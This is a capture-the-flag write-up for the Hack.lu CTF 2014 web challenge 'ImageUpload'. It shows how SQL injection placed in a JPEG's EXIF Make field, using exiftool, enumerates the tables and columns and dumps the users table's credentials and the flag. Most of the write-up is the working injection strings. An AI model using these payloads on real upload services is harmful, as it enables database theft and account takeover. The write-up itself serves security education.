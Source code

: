 # Hack.lu CTF 2014: ImageUpload

**Category:** Web
**Points:** 200
**Author:** SLAZ
**Description:**

> In the Wild Wild Web, there are really bad guys. The sheriff doesn’t know them all. Therefore, he needs your help.
Upload pictures of criminals to this [site](https://wildwildweb.fluxfingers.net:1421/) and help the sheriff to arrest them.
You can make this Wild Wild Web much less wild!!!
>
> Pictures will be deleted on regular basis!
>
> **Hint:** Bruteforce is not necessary to solve the challenge!!! Please don’t do this.

## Write-up

As stated in the challenge description, the site at <https://wildwildweb.fluxfingers.net:1421/> allows image uploads. There is also a login form, but since we don’t have an account, let’s ignore that for now.

Some trial and error reveals that only JPEGs are accepted. Any image you upload gets some effects applied to it to make it look like a Wild Western ‘Wanted’ poster:

![](poster.jpg)

The text on the image “Dr. Evil” reflects the original image’s `Artist` EXIF tag. Below the image, the original `Width`, `Height`, `Author` (i.e. `Artist`), `Manufacturer` (i.e. `Make`), and `Model` EXIF tags are shown. Let’s inject some interesting values there:

```bash
$ exiftool -Make="foo', (SELECT VERSION())) -- -" image.jpg
```

Uploading this image lists the `Manufacturer` as `foo`, and uses the result of `SELECT VERSION()` as the next value in the query, i.e. as if it was the value for `Model`. Yep, the app is vulnerable to SQL injection through EXIF data.

Let’s find out which tables exist in the current database:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -" image.jpg
```

The result is `brute,pictures,users`. Hmm, what are the names of the columns in the `users` table?

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users')) -- -" image.jpg
```

Apparently, `id,name,password`. Those `name` and `password` columns sound interesting – let’s see what values are in there:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(CONCAT(name, ':', password)) FROM users)) -- -" image.jpg
```

The result: `sheriff:AO7eikkOCucCFJOyyaaQ,deputy:testpw`.

Logging in using `sheriff` as the username and `AO7eikkOCucCFJOyyaaQ` as the password reveals the flag `flag{1_5h07_7h3_5h3r1ff}`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-web-200-imageupload/>
